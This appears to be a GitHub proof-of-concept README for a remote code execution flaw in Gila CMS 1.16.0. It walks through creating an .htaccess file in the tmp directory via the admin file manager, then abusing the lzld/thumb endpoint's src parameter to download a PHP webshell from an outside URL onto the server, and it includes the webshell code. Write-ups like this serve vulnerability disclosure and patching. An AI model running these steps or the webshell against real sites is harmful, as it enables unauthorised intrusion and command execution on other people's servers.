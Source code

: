 # Gila-CMS-1.16.0-shell-upload
----
1.Login as administrator or any users have logs permission

2.Access to **http://IP/admin/fm?f=tmp/** . For example:
```http://192.168.0.105:1234/gila16/admin/fm?f=tmp/```

![title](Images/1.jpg)

3.Click **+File** and create **.htaccess**:

![title](Images/2.jpg)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example:
```http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php```

5.We can check shell name with **http://IP/admin/fm?f=tmp/**

![title](Images/3.jpg)

6.Access to webshell and got RCE!

![title](Images/4.jpg)

----
## shell.php
```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```
